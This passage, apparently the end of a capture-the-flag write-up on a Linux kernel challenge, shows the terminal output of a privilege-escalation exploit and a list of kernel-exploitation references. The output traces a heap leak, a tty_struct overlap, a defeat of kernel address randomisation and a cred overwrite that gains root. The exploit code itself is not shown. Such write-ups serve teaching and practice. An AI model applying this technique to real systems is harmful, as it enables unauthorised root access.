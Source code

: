 ```
ivan@ubuntu:~/kernel/meow$ sudo ./start.sh 
/ $ ./exp
[*] Got a kernel heap leak: 0xffff88800daed000
[*] tty_struct will be allocated at address: 0xffff88800d000000
[*] now page 0x7fb11234c000 is synonymous with tty_struct of fd 4
[*] fops is located at: 0xffffffff81e65800
[*] kernel base: 0xffffffff80e00000
[*] Found current process(pid=1033)'s cred struct 0xffff88800ee56cc0
[*] original uid=1000, gid=1000. now escalating to root
[*] now i am uid=0
flag: zer0pts{*****CENSORED*****}
```



## 参考资料

[1] [https://pr0cf5.github.io/ctf/2020/03/09/the-plight-of-tty-in-the-linux-kernel.html](https://pr0cf5.github.io/ctf/2020/03/09/the-plight-of-tty-in-the-linux-kernel.html)<br>
[2] [https://nanxiao.me/en/why-doesnt-linux-device-driver-need-to-update-file-position-in-readwrite-functions/](https://nanxiao.me/en/why-doesnt-linux-device-driver-need-to-update-file-position-in-readwrite-functions/)<br>
[3] [https://cateee.net/lkddb/web-lkddb/HARDENED_USERCOPY.html](https://cateee.net/lkddb/web-lkddb/HARDENED_USERCOPY.html)<br>
[4] [https://blog.infosectcbr.com.au/2020/03/weaknesses-in-linux-kernel-heap.html](https://blog.infosectcbr.com.au/2020/03/weaknesses-in-linux-kernel-heap.html)<br>
[5] [https://lwn.net/Articles/741878/](https://lwn.net/Articles/741878/)<br>
[6] [https://github.com/pr0cf5/kernel-exploit-practice/tree/master/bypass-smep](https://github.com/pr0cf5/kernel-exploit-practice/tree/master/bypass-smep)
